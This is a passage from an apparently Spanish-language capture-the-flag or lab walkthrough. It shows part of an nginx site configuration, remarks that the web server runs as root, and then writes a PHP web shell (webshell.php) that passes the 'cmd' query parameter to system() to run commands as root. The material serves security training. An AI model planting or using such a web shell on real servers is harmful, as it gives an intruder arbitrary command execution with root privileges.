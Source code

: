 ```
        #
        location ~ \.php$ {
                include /etc/nginx/snippets/fastcgi-php.conf;
        #
        #       # With php-fpm (or other unix sockets):
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        #       # With php-cgi (or other tcp sockets):
        #       fastcgi_pass 127.0.0.1:9000;
        }

        # deny access to .htaccess files, if Apache's document root
        # concurs with nginx's one
        #
        #location ~ /\.ht {
        #       deny all;
        #}
}


# Virtual Host configuration for example.com
#
# You can move that to a different file under sites-available/ and symlink that
# to sites-enabled/ to enable it.
#
#server {
#       listen 80;
#       listen [::]:80;
#
#       server_name example.com;
#
#       root /var/www/example.com;
#       index index.html;
#
#       location / {
#               try_files $uri $uri/ =404;
#       }
#}
```

Veremos varias cosas interesantes, pero entre ellas vemos que el usuario que deberia de ser `www-data` que es el que viene por defecto, en este caso lo esta gestionando `root` justo en el sitio web de `/var/www/html` el que vimos antes, por lo que vamos a crear un archivo en la `web` para poder ejecutar comando mediante `PHP` como el usuario `root`.

```shell
cd /var/www/html
nano webshell.php
```

> webshell.php

```php
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
} else {
    echo "Usa ?cmd=COMANDO para ejecutar.";
}
?>
```
